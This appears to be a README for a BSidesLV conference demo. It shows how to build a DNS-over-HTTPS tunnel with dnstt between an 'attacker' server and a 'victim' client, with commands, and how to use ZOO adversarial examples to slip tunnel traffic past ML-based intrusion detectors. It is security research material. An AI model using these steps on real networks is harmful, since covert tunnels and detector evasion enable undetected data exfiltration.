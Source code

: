 # BsidesLV - Demo

## Generic Algorithm to attack any model using Zeroth Order Optimization (ZOO) 

1. Choose the tool to generate malicious traffic
- Example: doh tunnel tools: dnstt, iodine, doh-proxy, etc
2. Generate malicious feature instances (ex: pcap)
- You can use tcpdump, wireshark, scapy (python library), or dohlyzer.
3. Choose the features to attack (best features are you can change like packet size and time)
4. Set up the limits of chosen feature for attacking (ex: positive numbers to time or 30\% for packet size)
5. Attack
6. Get the most modified features (ex: 4 most)
7. Use the gotten numbers to set up your tool

## Demo1 - DoH tunnel Basics - 101
In this demo, we will show how to create a DoH tunnel using dnstt on AWS and how to use it to tunnel DNS traffic over HTTPS.

Pre-requisites:
- An AWS account
- An Elastic IP (AWS)
- DNS domain configured in Route 53 (AWS)

### DNS Setup
Go into the AWS Route53 service console and add two records:

A	tns.yourdomain.com	points to	34.239.223.23 (Elastic IP)
NS	t.yourdomain.com	is managed by	tns.yourdomain.com

tns.yourdomain.com points to the addresses of your tunnel server. It is marked as being the nameserver for everything in the t.yourdomain.com DNS zone. 
When a recursive resolver receives a query for subdomain.t.yourdomain.com, it will forward the query to the tunnel server—that is how the client tunnels data to the server.

The "tns" and "t" labels can be anything you want, but the "tns" label should not be a subdomain of the "t" label (everything under that subdomain is reserved for tunnel payloads). 
The "t" label should be short, because there is limited space available in a DNS message, and the domain name takes up part of it.

Here is an example of screen capture of the Route 53 configuration:

![Route53](../img/r53.png)

### Steps
1. Create an EC2 instance (attacker machine) on AWS and attach a elastic IP on it.
2. Make sure the security group allows both TCP and UDP traffic on port 53
3. Install dnstt-server on the EC2 instance
- Clone the dnstt repository: https://github.com/Mygod/dnstt and compile the dnstt-server
- Generate a key pair for the DoH tunnel

```shell
./dnstt-server -gen-key -privkey-file server.key -pubkey-file server.pub
```

4. Create a DoH tunnel (server side)

```shell
./dnstt-server -udp :5300 -privkey-file server.key t.mydomain.com 127.0.0.1:8000
```

5. Create a backend "application" to receive the tunneled traffic on server side

```shell
ncat -l -k -v 127.0.0.1 8000
```

6. Configure the client (victim/local machine) to use the DoH tunnel
- Copy the public key `server.pub` to the client machine

Note: 1.1.1.1 is the Cloudflare DNS resolver. You can use any DoH resolver you want.

```shell
./dnstt-client -doh https://1.1.1.1/dns-query -pubkey-file server.pub t.mydomain.com 127.0.0.1:7000
```

7. Create a backend "application" to receive the tunneled traffic on client side

```shell
ncat -v 127.0.0.1 7000
````

8. Test the DoH tunnel
9. Analyze the traffic
10. Cleanup

## Demo 2 - Attacking DoH Tunnel Detection models    
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the 
Zoo Attack (Vanilla) and Zoo Target Attack.
In the Zoo Vanilla attack, the success rate is high because the attack algorithm faces fewer constraints when generating 
adversarial examples.
Conversely, in the Zoo Target attack, the success rate is lower due to the increased constraints on the attack algorithm. 
However, it is important to note that despite the lower success rate, this attack is more realistic. 
In a real-world scenario, we just need a single successful attack instance to achieve the desired effect.

### Zoo Attack (Vanilla Attack)
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Generate adversarial examples (attack): [ZooDoH_Attack_GB.ipynb](./bsides-experiments/ZooDoH_Attack_GB.ipynb)

### Zoo Target Attack 
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Get DoH tunnel tools feature limits: [get-doh-tunnel-tool-limits.ipynb](./bsides-experiments/get-doh-tunnel-tool-limits.ipynb)
4. Increase/decrease the feature limits according to your needs: Edit the file `dnstt-limits-prod.csv`
5. Choose features to attack: Edit the array `features_to_attack` on notebook `Target_ZooDoH_Attack_GB.ipynb`
6. Generate adversarial examples (attack): [Target_ZooDoH_Attack_GB.ipynb](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb)

## Demo 3 - Real world Black Box Attacking (real-world scenario)   
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the Target Zoo Attack in a real-world scenario.
The model is loaded by the [nids-ml.py](./feature-extractor/meter/nids-ml.py) script, simulating a real ML-based NIDS to detect DoH tunnel. The script captures the network traffic, normalize it and classifies it using the loaded model.
We use auxiliary scripts ([generate-tunnel-data](./tunel-dnstt/generate-tunnel-data.py) | [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py)) to produce tunnel data and send it to the NIDS. 

![Demo Target Zoo Attack](../img/demo_target_zoo.png)

### Steps

1. Run steps 1-6 from [Demo 1](#demo1---doh-tunnel-basics---101).
Note: Do not create the backend application on the client side.
2. Run [Target Zoo Attack](#zoo-target-attack-) - The steps are the same as showed in [Demo 2](#demo-2---attacking-doh-tunnel-detection-models-).
3. On the local machine, start the NIDS script, specifying the interface (-n), the model path (-m), and a path to save the captured data (-c).

```shell
cd feature-extractor/meter
./nids-ml.py -n <INTERFACE> --enable-nids -m ../../bsides-experiments/ -c /tmp/captured.csv
```

4. Choose the (best) features you want to reproduce based on the two last [notebook](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb) cells 
and replace the values on the [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py) script.

5. Run the [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py) script to send the adversarial examples to the NIDS.
Tip: You can run the benign traffic script ([generate-tunnel-data](./tunel-dnstt/generate-tunnel-data.py)) to compare the results.

